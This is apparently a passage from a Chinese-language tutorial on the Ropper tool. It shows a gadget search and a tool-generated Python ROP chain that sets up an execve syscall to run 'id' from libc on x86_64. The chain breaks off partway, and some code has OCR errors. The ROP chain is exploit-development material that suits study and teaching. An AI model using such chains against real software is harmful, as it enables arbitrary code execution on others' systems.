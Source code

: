 ```
0x00000000001161f4: mov qword ptr [rbx + 0x40], rax; mov eax, 1; add rsp, 8; pop rbx; pop rbp; ret;
```

  
  
如您所见，我们让该工具搜索任何由寄存器指向的内存移动指令rbx+40，而不管操作数是什么。这非常有用，因为并非所有情况下，我们都能找到能够完全按照我们期望执行的操作。另一种方法是间接使用不同的指令来实现相同的结果。该工具还提供了一个很棒的功能，可以为我们构建完全可用的 ROP 链。  
  

```
(libc.so.6/ELF/x86_64)> ropchain execve cmd=id

[INFO] ROPchain Generator for syscall execve:


[INFO] 
write command into data section
rax 0xb
rdi address to cmd
rsi address to null
rdx address to null


[INFO] Try to create chain which fills registers without delete content of previous filled registers
[*] Try permuation 1 / 24
[INFO] 

[INFO] Look for syscall gadget

[INFO] syscall gadget found
[INFO] generating rop chain
#!/usr/bin/env python
# Generated by ropper ropchain generator #
fromstruct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000000000# 2f1f84e0f4df64e0eb1829fabd8720136456dc4efce9962cb1188f8d436e30b0
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000003c714) # 0x000000000003c714: pop r13; ret; 
rop += '//////id'
rop += rebase_0(0x000000000002aa5f) # 0x000000000002aa5f: pop rbx; ret; 
rop += rebase_0(0x00000000001e7000)
rop += rebase_0(0x000000000005e961) # 0x000000000005e961: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000003c714) # 0x000000000003c714: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x000000000002aa5f) # 0x000000000002aa5f: pop rbx; ret; 
rop += rebase_0(0x00000000001e7008)
rop += rebase_0(0x000000000005e961) # 0x000000000005e961: mov qword ptr [rbx], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000002a205) # 0x000000000002a205: pop rdi; ret; 
rop += rebase_0(0x00000000001e7000)
```